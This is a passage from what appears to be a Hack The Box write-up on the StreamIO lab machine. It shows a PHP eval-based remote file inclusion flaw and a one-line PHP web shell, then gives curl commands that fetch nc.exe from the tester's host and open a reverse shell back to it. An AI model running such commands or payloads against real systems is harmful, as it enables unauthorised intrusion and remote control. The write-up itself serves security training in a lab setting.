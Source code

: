 ```php
<?php
} # while end
?>
<br><hr><br>
<form method="POST">
<input name="include" hidden>
</form>
<?php
if(isset($_POST['include']))
{
if($_POST['include'] !== "index.php" ) 
eval(file_get_contents($_POST['include']));
else
echo(" ---- ERROR ---- ");
}
?>
```

At the bottom of the source code we can see `eval` being used on `file_get_contents` on the POST parameter `include` , so we can include any php file and if it contains php code it's going to be executed 

So creating a file a php file having the contents

```php
system($_GET['cmd']);
```

Hosting this through python server using `curl` to make a POST request

```bash
curl -X POST 'https://streamio.htb/admin/?debug=master.php&cmd=dir' -k -b 'PHPSESSID=bg2lbvk5d9pvrjub67e5aib3rk' -d 'include=http://10.10.14.26:2222/test.php
```

<img src="https://i.imgur.com/Pq8a6IO.png"/>

We have command execution, so let's try getting a shell by downloading `nc` and executing it 

```bash
curl -X POST 'https://streamio.htb/admin/?debug=master.php&cmd=curl+10.10.14.26:2222/nc.exe+-o+C:\Windows\Temp\nc.exe' -k -b 'PHPSESSID=bg2lbvk5d9pvrjub67e5aib3rk' -d 'include=http://10.10.14.26:2222/test.php'
```

```bash
curl -X POST 'https://streamio.htb/admin/?debug=master.php&cmd=C:\Windows\Temp\nc.exe+10.10.14.26+3333+-e+cmd.exe' -k -b 'PHPSESSID=bg2lbvk5d9pvrjub67e5aib3rk' -d 'include=http://10.10.14.26:2222/test.php'
```

<img src="https://i.imgur.com/ddhxfyw.png"/>

Running `whoami` will return that we are yoshihde user on the system

<img src="https://i.imgur.com/CB1RB5g.png"/>
